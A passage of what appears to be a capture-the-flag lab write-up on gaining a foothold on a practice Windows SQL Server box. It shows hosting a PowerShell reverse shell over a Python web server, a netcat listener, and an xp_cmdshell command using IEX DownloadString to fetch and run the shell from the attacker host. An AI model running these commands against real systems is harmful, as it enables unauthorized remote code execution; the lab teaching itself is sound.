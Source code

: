 To host this reverse shell file. we need to set up a mini server.  We do this by, on our machine, running a python command (be sure to do this in the same directory as your powershell reverse shell file!):
```bash
$ python3 -m http.server 80
Traceback (most recent call last):
  File "/usr/lib/python3.9/runpy.py", line 197, in _run_module_as_main
    return _run_code(code, main_globals, None,
  File "/usr/lib/python3.9/runpy.py", line 87, in _run_code
    exec(code, run_globals)
  File "/usr/lib/python3.9/http/server.py", line 1289, in <module>
    test(
  File "/usr/lib/python3.9/http/server.py", line 1244, in test
    with ServerClass(addr, HandlerClass) as httpd:
  File "/usr/lib/python3.9/socketserver.py", line 452, in __init__
    self.server_bind()
  File "/usr/lib/python3.9/http/server.py", line 1287, in server_bind
    return super().server_bind()
  File "/usr/lib/python3.9/http/server.py", line 138, in server_bind
    socketserver.TCPServer.server_bind(self)
  File "/usr/lib/python3.9/socketserver.py", line 466, in server_bind
    self.socket.bind(self.server_address)
PermissionError: [Errno 13] Permission denied
                                                                                                                                                                        
$ sudo python3 -m http.server 80                                                                                                                                  1 ⨯
[sudo] password for jakeireland:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we run a netcat listener on the port specified in our reverse shell file above:
```bash
$ nc -nvlp 1234
listening on [any] 1234 ...
```

Now we need to upload our reverse shell file to the SQL database.  We found [this](https://github.com/frizb/Windows-Privilege-Escalation#uploading-files-with-powershell) online for how to upload files, so we run the following:
```
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.34/shell.ps1\");"
```
We run this and see that our netcat listener picks up something!:
```
$ sudo rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.27] 49710
```

In that window, we can now run
```
$ sudo rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.27] 49683
whoami
archetype\sql_svc
more \users\sql_svc\desktop\user.txt
3e7b************************21a3
```

